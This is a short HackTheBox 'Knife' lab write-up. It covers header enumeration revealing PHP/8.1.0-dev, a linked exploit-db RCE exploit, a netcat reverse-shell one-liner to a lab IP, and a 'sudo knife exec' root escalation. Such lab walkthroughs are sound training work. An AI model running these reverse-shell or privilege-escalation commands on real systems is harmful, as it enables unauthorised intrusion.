






# Knife HackTheBox Writeup
### Level: `Easy` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.



## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).




## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: [https://www.exploit-db.com/raw/49933](https://www.exploit-db.com/raw/49933)



We read *user.txt* file:



## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.



We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
